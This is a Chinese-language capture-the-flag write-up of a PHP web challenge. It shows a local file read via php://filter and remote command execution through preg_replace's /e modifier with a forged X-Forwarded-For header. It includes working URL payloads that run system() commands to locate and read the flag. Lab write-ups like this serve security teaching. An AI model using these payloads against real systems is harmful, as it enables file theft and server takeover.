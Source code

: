 ### 一. 题目描述

![image-20210209141002197](images/image-20210209141002197.png)

对着屏幕一顿乱点之后，发现只有“设备维护中心”有反应：

![image-20210209141110455](images/image-20210209141110455.png)

### 二. 分析

#### 2.1 查看网页源代码：

![image-20210209141307128](images/image-20210209141307128.png)

发现一个可以点击的url，点完之后url变成这样：

![image-20210209141425588](images/image-20210209141425588.png)

把view-source去掉：

![image-20210209141705000](images/image-20210209141705000.png)

将参数改成/etc/passwd:

![image-20210209141814027](images/image-20210209141814027.png)

**发现存在文件读取漏洞**。

尝试读取index.php:

![image-20210209142054640](images/image-20210209142054640.png)

使用file文件协议读取index.php：

![image-20210209141948314](images/image-20210209141948314.png)



#### 2.2 php伪协议文件读取

在上述尝试失败之后，可以利用php://filter伪协议读取：

`php://filter/read=convert.base64-encode/resource=index.php`

![image-20210209142334980](images/image-20210209142334980.png)

将base64编码解码得到一段可疑代码：

![image-20210209142647075](/Users/jackson/Documents/ctf/web/gongfang_2020_web_ics05/images/image-20210209142647075.png)

#### 2.3 preg_replace函数

这个函数存在命令执行漏洞。

函数的功能如下所示：

语法

preg_replace ( $pattern , $replacement , $subject  )

搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。

参数说明：

```php
$pattern: 要搜索的模式，可以是字符串或一个字符串数组。
$replacement: 用于替换的字符串或字符串数组。
$subject: 要搜索替换的目标字符串或字符串数组。
```
命令执行漏洞：当函数第一个参数用//e修饰，第三个参数与第一个参数相同时，第二个参数可以当作php代码执行。
即preg_replace("/123/e", "phpinfo()", "123");可以执行phpinfo()函数。

#### 2.4 伪造XFF头来登入系统

使用burpsuite抓包改包修改XFF：

下面的命令可以查看php的信息，只做试验用。

构造payload：`index.php?pat=/123/e&rep=phpinfo()&sub=123`

![image-20210209191028833](images/image-20210209191028833.png)

X-Forwarded-For那项是自己加上去的，右边是返回的包结果。

再构造payload：`index.php?pat=/123/e&rep=system("find+-iname+flag")&sub=123`，获取flag文件的存放位置：

(+在url中会被解释成空格，这里用%20也行)

![image-20210209191432228](/Users/jackson/Documents/ctf/web/gongfang_2020_web_ics05/images/image-20210209191432228.png)

由上图的返回结果可知，flag在文件夹`./s3chahahaDir/flag`下面，所以可以构造下面的payload得到flag的内容：

``index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag")&sub=123``

![image-20210209193713567](images/image-20210209193713567.png)

此时根本没有结果，所以猜测flag是个文件夹下面还有文件，构造下面的payload：

`index.php?pat=/123/e&rep=system("cd+./s3chahahaDir/flag%26%26ls")&sub=123`

%26被url解释成&，命令&&表示同时执行两条命令。

![image-20210209193936439](images/image-20210209193936439.png)

读取flag.php的文件内容：

`index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag/flag.php")&sub=123`

![image-20210209194024165](images/image-20210209194024165.png)

最后的flag如下：

`cyberpeace{aa18c21bc847ca88f2a337e444ac329b`

